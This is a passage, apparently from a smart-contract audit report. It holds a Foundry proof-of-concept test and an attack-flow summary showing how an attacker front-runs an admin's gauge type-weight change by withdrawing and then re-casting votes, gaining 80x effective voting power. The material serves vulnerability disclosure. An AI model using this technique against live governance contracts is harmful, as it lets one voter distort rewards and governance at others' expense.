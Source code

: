 ```solidity 
        vm.stopPrank();
​
        console.log("\nInitial state:");
        console.log("Initial type weight:", controller.getTypeWeight(IGaugeController.GaugeType.RWA));
        console.log("Initial gauge weight:", controller.getGaugeWeight(gauge));
        console.log("Initial effective power:", controller.getGaugeWeight(gauge) * controller.getTypeWeight(IGaugeController.GaugeType.RWA) / controller.MAX_TYPE_WEIGHT());
        
        // Step 1: Attacker front-runs by removing their vote
        vm.startPrank(attacker);
        controller.vote(gauge, 0);
        vm.stopPrank();
        
        // Step 2: Admin increases type weight significantly
        vm.startPrank(admin);
        controller.setTypeWeight(IGaugeController.GaugeType.RWA, 8000); // 80%
        vm.stopPrank();
        
        // Step 3: Attacker back-runs by voting again
        vm.startPrank(attacker);
        controller.vote(gauge, ATTACKER_VOTING_POWER);
        vm.stopPrank();
​
        uint256 finalEffectivePower = controller.getGaugeWeight(gauge) * controller.getTypeWeight(IGaugeController.GaugeType.RWA) / controller.MAX_TYPE_WEIGHT();
        uint256 initialEffectivePower = ATTACKER_VOTING_POWER * 1000 / controller.MAX_TYPE_WEIGHT(); // Initial power with 10% type weight
​
        console.log("\nAttack Results:");
        console.log("Initial effective power:", initialEffectivePower);
        console.log("Final effective power:", finalEffectivePower);
        console.log("Power multiplier gained:", finalEffectivePower / initialEffectivePower);
​
        assertTrue(
            finalEffectivePower > initialEffectivePower * 2, 
            "Attack failed - voting power not significantly increased"
        );
    }
}
```

### Attack flow:

Attacker has 100 voting power units
Initial type weight is set to 1000 (10%) for RWA gauge type
Attacker initially votes with full power
​
​
 Attacker monitors mempool for type weight changes
 Removes vote completely
 Admin increases type weight significantly
 80%
 Attacker quickly re-applies vote after weight change
 Re-votes with same power
​
Attack Results:
Initial effective power: 10 (100 * 10%)
Final effective power: 800 (100 * 80%)
Power multiplier gained: 80x
​
   